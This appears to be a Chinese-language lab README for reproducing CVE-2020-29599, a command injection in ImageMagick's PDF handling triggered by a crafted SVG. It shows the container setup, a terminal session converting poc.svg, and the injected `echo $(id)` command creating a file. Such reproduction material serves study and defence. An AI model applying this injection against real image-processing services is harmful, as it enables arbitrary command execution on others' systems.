

# Imagemagick PDF密码位置命令注入漏洞（CVE-2020-29599）

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。研究者@insertScript 发现在Imagemagick 7.0.10-35到7.0.10-40、6.9.11-35 up到6.9.11-40处理PDF的过程中存在一处命令注入漏洞，通过构造好的SVG格式图片文件，即可在Imagemagick中注入任意命令。

参考链接：

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## 漏洞环境与复现

直接执行如下命令进入安装了Imagemagick 7.0.10-36的Linux环境：

```
docker-compose.exe run im bash
```

进入`/tmp`目录，对[poc.svg](poc.svg)进行格式转换，即可触发漏洞：

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

此时命令`echo $(id)> ./0wned`已执行成功：


